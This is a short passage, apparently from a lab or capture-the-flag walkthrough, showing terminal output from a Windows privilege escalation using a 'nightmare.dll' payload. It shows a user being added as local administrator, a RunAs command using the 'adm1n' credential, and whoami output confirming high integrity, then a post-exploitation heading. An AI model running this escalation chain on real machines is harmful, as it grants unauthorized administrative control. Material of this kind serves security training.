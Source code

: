 ```
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
PS C:\Users\Atlas> Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n


Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                  
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288        

:)



```

![[Pasted image 20230101230304.png]]

###  Attack Post Exploitation

Awesome -- we have admin access! Now what do we do with it?
